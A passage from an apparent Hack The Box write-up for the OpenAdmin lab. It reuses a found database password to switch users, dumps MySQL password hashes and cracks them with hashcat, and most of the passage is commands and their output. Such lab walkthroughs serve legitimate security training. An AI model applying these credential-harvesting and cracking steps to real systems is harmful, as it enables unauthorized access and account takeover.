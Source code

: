 	?>
	```
	- `ona_sys:n1nj4W4rri0R!`
4. Switch to `jimmy` w/ `n1nj4W4rri0R!`
	```
	www-data@openadmin:/opt/ona$ su jimmy
	Password: n1nj4W4rri0R!
	jimmy@openadmin:/opt/ona$
	```

## Extract MySQL Database Hashes & Crack
1. Connect to `mysql` w/ `ona_sys:n1nj4W4rri0R!`
	```
	www-data@openadmin:/opt/ona$ mysql -u ona_sys -p
	Enter password:
	```
2. Extract hashes from `users` table from `ona` database
	```
	mysql > use ona_default
	mysql> SELECT username, password FROM users;
	+----------+----------------------------------+
	| username | password                         |
	+----------+----------------------------------+
	| guest    | 098f6bcd4621d373cade4e832627b4f6 |
	| admin    | 21232f297a57a5a743894a0e4a801fc3 |
	+----------+----------------------------------+
	```
3. Identify the hash
	```
	┌──(root💀kali)-[~/htb/OpenAdmin/10.10.10.171/loot]
	└─# nth -f hash --no-banner
	
	098f6bcd4621d373cade4e832627b4f6
	
	Most Likely
	MD5, HC: 0 JtR: raw-md5 Summary: Used for Linux Shadow files.
	MD4, HC: 900 JtR: raw-md4
	NTLM, HC: 1000 JtR: nt Summary: Often used in Windows Active Directory.
	Domain Cached Credentials, HC: 1100 JtR: mscach
	
	21232f297a57a5a743894a0e4a801fc3
	
	Most Likely
	MD5, HC: 0 JtR: raw-md5 Summary: Used for Linux Shadow files.
	MD4, HC: 900 JtR: raw-md4
	NTLM, HC: 1000 JtR: nt Summary: Often used in Windows Active Directory.
	Domain Cached Credentials, HC: 1100 JtR: mscach
	```
	- `raw-md5`
4. Crack hash w/ `hashcat`
	```
	┌──(root💀kali)-[~/htb/OpenAdmin/10.10.10.171/loot]
	└─# hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt --show
	098f6bcd4621d373cade4e832627b4f6:test
	21232f297a57a5a743894a0e4a801fc3:admin
	```
